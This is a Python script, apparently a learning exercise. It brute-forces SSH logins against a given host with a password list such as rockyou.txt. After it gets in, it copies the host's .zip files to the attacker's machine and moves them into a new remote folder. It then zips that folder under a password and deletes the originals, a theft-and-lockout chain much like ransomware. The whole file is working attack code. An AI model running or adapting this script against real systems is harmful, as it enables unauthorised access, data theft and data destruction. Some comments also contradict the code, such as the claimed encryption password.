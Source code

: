 #!/usr/bin/env python3
# 2/6/2024
# Script - This is an example of a Brute force script 
    # It allows a user to SSH into a known IP with a Known User and tries different passwords with the file provided
    # The script will then Search for .zip files 
    # If files are found it will move them to the host PC of the script into a new folder 
    # Once files have been copied over it will then move the found files into a new folder 
    # Once in the new folder it will zip and encrypt these files with a default password 
    # Once encrypted the script will then delete the original .zip files. 

# Resources Google, Bard, ChatGPT, https://www.paramiko.org/: https://www.paramiko.org/

import paramiko #install with pip install paramiko resource https://www.paramiko.org/: https://www.paramiko.org/
import os
from paramiko import SSHClient, AutoAddPolicy
from scp import SCPClient # Install with pip install scp

def brute_force_ssh(hostname, username, password_file):
    # Create an SSH client instance
    client = paramiko.SSHClient()
    port = 22
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    # Open the password file
    with open(password_file, 'r') as f:
        # Loop through each line in the file
        for password in f:
            password = password.strip()  # Remove leading/trailing whitespaces and newline characters
            print(f"Trying password: {password}")
            # Attempt SSH connection with the password
            try:
                client.connect(hostname, port, username, password)

                # Print the current working directory   
                stdin, stdout, stderr = client.exec_command("pwd")
                output = stdout.read().decode().strip()
                print(f"Current working directory: {output}")

                # List files and search for .zip files
                stdin, stdout, stderr = client.exec_command("find . -name '*.zip'")
                zip_files = stdout.read().decode().strip().split('\n')
                print("Found zip files:")
                for zip_file in zip_files:
                    print(zip_file)

                    # Create a new folder named 'itworked' on the local machine if it doesn't exist
                    local_folder_path = os.path.join(os.getcwd(), "itworked")
                    if not os.path.exists(local_folder_path):
                        os.makedirs(local_folder_path)

                    # Define the local path where the zip file will be copied
                    local_copy_path = os.path.join(local_folder_path, os.path.basename(zip_file))

                    # Copy the zip file from the remote server to the local machine
                    with SCPClient(client.get_transport()) as scp:
                        scp.get(zip_file, local_copy_path)
                    
                    print(f"Successfully copied {zip_file} to {local_copy_path}")

                    # Create a new folder named 'minenow' on the remote machine if it doesn't exist
                    remote_folder_path = "/home/will/minenow"
                    create_folder_command = f"mkdir -p {remote_folder_path}"
                    client.exec_command(create_folder_command)

                    # Move the zip file to the 'minenow' folder
                    move_command = f"mv {zip_file} {remote_folder_path}"
                    client.exec_command(move_command)
                    print(f"Successfully moved {zip_file} to {remote_folder_path}")

                # Encrypt the 'minenow' folder with password 'password1234'
                zip_command = f"zip -r -P {password} {remote_folder_path}.zip {remote_folder_path}"
                client.exec_command(zip_command)
                print(f"Successfully encrypted {remote_folder_path} to {remote_folder_path}.zip with password 'password1234'")

                # Delete the original .zip files
                delete_command = f"rm -rf {remote_folder_path}"
                client.exec_command(delete_command)
                print(f"Successfully deleted the original files in {remote_folder_path}")

                break  # Exit the loop after finding and processing the files
            except Exception as e:
                print(f"Error: {e}")
        else:
            # No valid password found if the loop completes without successful authentication
            print("No valid password found.")

    # Close the SSH connection
    client.close()

def main():
    # Prompt user for SSH connection details
    hostname = input("Enter the hostname or IP address of the remote server (default: 192.168.50.30): ") or '192.168.50.30'
    username = input("Enter your username (default: will): ") or 'will'
    password = input("Enter your password (press Enter to skip): ")

    if password:
        brute_force_ssh(hostname, username, password)
    else:
        password_file = input("Enter the path to the password file (default: rockyou.txt): ") or 'rockyou.txt'
        brute_force_ssh(hostname, username, password_file)

if __name__ == "__main__":
    main()
